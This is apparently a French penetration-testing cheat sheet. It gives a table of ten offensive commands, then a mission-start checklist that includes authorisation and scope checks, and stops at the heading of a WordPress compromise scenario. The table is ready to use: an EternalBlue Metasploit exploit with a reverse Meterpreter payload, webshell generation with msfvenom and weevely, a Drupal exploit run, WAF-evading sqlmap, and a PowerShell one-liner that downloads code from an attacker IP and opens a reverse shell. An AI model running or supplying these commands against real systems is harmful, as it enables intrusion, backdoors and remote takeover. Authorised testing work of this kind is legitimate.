 ### 4.1 Tableau des 10 commandes essentielles

| Catégorie | Commande | Description | Contexte d'utilisation |
|-----------|----------|-------------|------------------------|
| SQLi | `sqlmap -u "http://cible.com/page.php?id=1" --batch --dbs --random-agent` | Détection automatique d'injection SQL avec contournement de WAF | Audit rapide d'application web avec paramètres GET |
| XSS | `dalfox url "http://cible.com/page.php?param=test" -o xss_results.txt` | Scan XSS avec sauvegarde des résultats | Vérification rapide de vulnérabilités XSS |
| Metasploit | `use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.100; exploit` | Exploitation EternalBlue avec Meterpreter | Compromission rapide de systèmes Windows vulnérables |
| Metasploit | `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php` | Génération de webshell PHP Meterpreter | Préparation de payload pour upload sur serveur web |
| Searchsploit | `searchsploit -m 46978 && python3 46978.py http://cible.com/` | Recherche et exécution d'exploit pour Drupal (CVE-2018-7600) | Exploitation rapide de CMS Drupal vulnérable |
| Buffer Overflow | `pattern_create.rb -l 1000 > pattern.txt` | Génération de pattern pour identification d'offset | Développement d'exploit buffer overflow |
| Réseau | `nmap -sS -sV --script vuln 192.168.1.0/24 -p 80,443,445,3389` | Scan de vulnérabilités ciblé | Identification rapide de cibles vulnérables |
| Webshell | `weevely generate password123 /tmp/shell.php` | Génération de webshell PHP obfusqué | Préparation de backdoor discrète pour serveur web |
| Post-exploitation | `powershell -ep bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 4444"` | Exécution de reverse shell PowerShell en mémoire | Post-exploitation Windows avec contournement de restrictions |
| Tunneling | `chisel client 192.168.1.100:8080 R:socks` | Établissement de tunnel SOCKS | Pivoting réseau après compromission initiale |

### 4.2 Checklist "Départ mission exploitation"

**Préparation de l'environnement**
- [ ] Vérifier la connectivité réseau et l'accès à la cible
- [ ] Configurer le VPN/proxy pour anonymisation si nécessaire
- [ ] Mettre à jour les outils d'exploitation (Metasploit, searchsploit -u)
- [ ] Préparer les listeners (nc, Metasploit multi/handler)
- [ ] Configurer les outils de capture de trafic (Wireshark, tcpdump)

**Vérification légale et éthique**
- [ ] Confirmer le périmètre autorisé (adresses IP, domaines)
- [ ] Vérifier les restrictions temporelles (heures autorisées)
- [ ] Identifier les systèmes à exclure (production critique, santé)
- [ ] Disposer des contacts d'urgence en cas d'incident

**Préparation technique**
- [ ] Compiler les résultats de reconnaissance (versions, technologies)
- [ ] Préparer les payloads adaptés à l'environnement cible
- [ ] Configurer les proxies d'interception (Burp Suite, ZAP)
- [ ] Préparer les scripts d'automatisation personnalisés
- [ ] Vérifier l'espace disque pour l'exfiltration de données

**Documentation et traçabilité**
- [ ] Initialiser le journal d'exploitation (horodatage, commandes)
- [ ] Préparer les outils de capture d'écran/enregistrement
- [ ] Configurer la sauvegarde automatique des logs d'outils
- [ ] Créer une structure de dossiers pour organiser les résultats

### 4.3 Scénario express : Compromission d'un WordPress vulnérable
